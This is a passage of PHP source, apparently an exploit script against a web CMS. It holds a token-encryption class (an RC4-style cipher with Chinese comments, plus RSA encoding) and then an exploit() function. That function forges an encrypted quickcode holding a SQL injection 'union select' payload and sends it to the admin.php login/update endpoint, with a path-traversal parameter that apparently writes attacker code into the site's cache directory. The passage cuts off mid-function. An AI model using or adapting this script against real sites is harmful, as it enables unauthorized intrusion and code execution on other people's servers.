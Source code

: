```php
        $rs = $this->core($string,$cryptkey);
        return $keyc.str_replace('=', '', base64_encode($rs));
    }

    /**
     * 基于公钥加密
     **/
    private function encode_rsa($string)
    {
        if(!$this->public_key){
            return false;
        }
        $string = json_encode($string,JSON_UNESCAPED_UNICODE);
        openssl_public_encrypt($string,$data,$this->public_key);
        return base64_encode($data);
    }

    private function core($string,$cryptkey)
    {
        $key_length = strlen($cryptkey);
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        // 产生密匙簿
        for($i = 0; $i <= 255; $i++){
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        // 用固定的算法，打乱密匙簿，增加随机性，好像很复杂，实际上并不会增加密文的强度
        for($j = $i = 0; $i < 256; $i++){
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        // 核心加解密部分
        for($a = $j = $i = 0; $i < $string_length; $i++){
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        return $result;
    }
}

function exploit($url, $filename, $code){
    $data = array(
        'id' => "-2'union select '$code',2,3,4,5,6,7,8,9,10,11#",
        'user' => 2,
        'time' => time(),
        'domain' => '127.0.0.1'
    );
    $token = new token_lib();
    $token->keyid("aa");
    $quickcode = $token->encode($data);
    echo $quickcode;
    echo "<br/><br/>";
    $html = file_get_contents($url . "admin.php?c=login&f=update&fid=../api&fcode=/../_cache/$filename&quickcode=" . $quickcode);
    if (stripos($html, "success") !== False) {
```
